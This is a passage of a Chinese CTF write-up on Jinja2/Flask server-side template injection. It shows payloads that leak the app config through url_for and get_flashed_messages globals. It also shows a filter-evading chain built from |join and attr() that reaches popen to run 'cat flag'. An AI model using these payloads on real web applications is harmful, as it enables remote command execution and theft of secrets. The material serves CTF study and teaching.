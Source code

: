 > 应用上下文会在必要时被创建和销毁。它不会在线程间移动，并且也不会在不同的请求之间共享。正因为如此，它是一个存储数据库连接信息或是别的东西的最佳位置

这里可以尝试用它来进行绕过  
构造的 payload 如下

```plain
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

[![在这里插入图片描述](assets/1698900310-eb952447592d20d07c87455480cb7f1e.png)](https://storage.tttang.com/media/attachment/2022/08/14/95d60abd-7dff-49ce-97fe-4bce48fb62d5.png)

### [level 11](#toc_level-11)

[![在这里插入图片描述](assets/1698900310-ea09a5564d75a7faa2abf41c99499bb4.png)](https://storage.tttang.com/media/attachment/2022/08/14/92e302cb-a002-4a5d-a162-df495c298ac5.png)  
过滤了单引号、双引号、加号、`request`，引号和中括号，这里我们使用这个 payload

```plain
().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

点被过滤，这里用 attr 来替代，关键词的话我们这里可以用 join 拼接来进行获取，修改过后的 payload 如下

```plain
{%set a=dict(__cla=a,ss__=b)|join %}  
{%set b=dict(__bas=a,e__=b)|join %}  
{%set c=dict(__subcla=a,sses__=b)|join %}   
{%set d=dict(__ge=a,titem__=a)|join%}
{%set e=dict(__in=a,it__=b)|join %} 
{%set f=dict(__glo=a,bals__=b)|join %} 
{%set g=dict(pop=a,en=b)|join %} 
{%set h=self|string|attr(d)(18)%}  #构造空格
{%set flag=(dict(cat=abc)|join,h,dict(flag=b)|join)|join%}
{%set re=dict(read=a)|join%}
{{()|attr(a)|attr(b)|attr(c)()|attr(d)(133)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```
